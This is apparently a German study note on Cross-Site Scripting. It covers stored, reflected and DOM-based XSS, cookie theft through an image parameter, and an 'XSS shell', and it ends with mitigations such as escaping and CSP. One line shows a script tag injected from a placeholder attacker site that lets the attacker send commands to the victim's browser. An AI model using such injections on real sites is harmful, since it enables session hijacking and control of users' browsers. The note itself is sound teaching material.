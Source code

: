 # Cross-Site Scripting (XSS)

## Stored XSS
- Angreifer kann auf Website Code platzieren, dass vom Victim bei Besuch ausgeführt wird
- Mit dem JS wird das Victim dazu gebracht, dem Angreifer die Session zu schicken
    - SOP verhindert das Senden per JS aber
    - Es wird aber z.B. ein Bild eingebunden mit dem Cookie im Parameter
    - Das Cookie landet im Access-Log des Angreifers
- Angreifer braucht Session selber (Session-Hijacking)

## Reflected XSS
- Angreifer schickt GET-Request mit JS in Query-Parameter
- Server sendet 404 mit Fehlermeldung, dass es die Seite nicht gibt, und reflektiert das JS zurück
- Wenn diese Anfrage vom Opfer ausgeführt wird, kann so beliebigs JS zur Ausführung gebracht werden

- Moderne Browser merken das JS in der URL und verhindern das Ausführen beim Reply (XSS-Filter)
- Server kann XSS-Filter auch enforcen (bei neuen Browsern) mit Header `X-XSS-Protection`

## DOM-Based XSS
- XSS im lokalen DOM ohne Server-Request
- JS-code wird im Anchor nach dem `#` angehängt, so wird sie nie dem Server übermittelt

## XSS Shell
- Angreifer injected `<script src="attacker-site/script.js"/>` auf Webapp
- Opfer führt Attacker-JS aus und pollt regelmässig den Attacker-Server
- So kann die Shell Befehle schicken, die vom Opfer abgeholt werden


## Mitigation
- HTML-Characters escapen
    - `<` in `&lt;` usw. umwandeln
    - In Praxis schwierig, das nicht gültige Zeichen wie `'` escaped werden
- Filter in WAF
- [Content Security Policy](8_CSP.md), damit nicht ein fremdes Script mit `<script src="..." />` eingefügt werden kann
